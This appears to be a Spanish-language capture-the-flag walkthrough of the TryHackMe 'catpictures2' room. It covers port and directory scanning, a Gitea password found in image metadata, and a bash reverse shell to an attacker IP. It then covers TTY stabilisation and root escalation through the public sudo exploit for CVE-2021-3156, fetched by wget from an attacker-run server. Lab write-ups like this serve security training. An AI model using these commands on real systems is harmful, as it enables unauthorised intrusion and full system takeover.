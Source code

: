```yaml
---
title: "catpictures2"
description: "catpictures2"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/catpictures2

# Fase de reconocimiento

## Buscamos puertos abiertos

Podemos añadir un -A para que sea mas agresivo

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.93.53
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503182631.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80,222,1337,3000,8080 -Pn 10.10.93.53
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503183036.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503183123.png)

## Gobuster

````
gobuster dir -u http://10.10.93.53 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503183838.png)

````
gobuster dir -u http://10.10.93.53:1337 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503184302.png)

````
gobuster dir -u http://10.10.93.53:3000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503184649.png)

````
gobuster dir -u http://10.10.93.53:8080 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
````

En 3000
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503182940.png)

# Fase de ataque

## Metadatos de una foto exiftool

````
exiftool cat.jpeg
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503185605.png)
Encontramos una ruta en Tittle que contiene la contraseña de gitea
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503185641.png)
Este repositorio contiene una aplicación que corre en el equipo en el puerto 1337
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503190306.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503190234.png)
Modificamos el código para una reverse shell

````
bash -c "bash -i>&1 /dev/tcp/10.9.2.97/1111 0>&1"
````

Nos ponemos en escucha por el puerto 111

````
nc -nlvp 111
````

Corremos la aplicación desde :1337

\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

Numeramos archivos con permisos

````
find \-perm -4000 2>/dev/null
````

Encontramos un sudo
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240503194938.png)
Miramos la version

````
sudo --version
````

Es vulnerable a un ataque de Buffer Overflow

## Exploit

https://github.com/blasty/CVE-2021-3156

1. 
   ````
   ````

````
git clone https://github.com/blasty/CVE-2021-3156
````

2. 

````
tar -cvf exploit.tar CVE-2021-3156
````

3. Abrimos un servidor para compartir el archivo

````
python3 -m http.server
````

4. Desde la maquina victima lo descargamos

````
wget http://10.17.54.133:8000/exploit.tar
````

5. Descomprimimos

````
tar xopf exploit.tar
````

6. Entramos en el directorio y compilamos

````
make
````

7. RUN

````
./sudo-hax-me-a-sandwich 0
````

\[+\] ==pwned!==
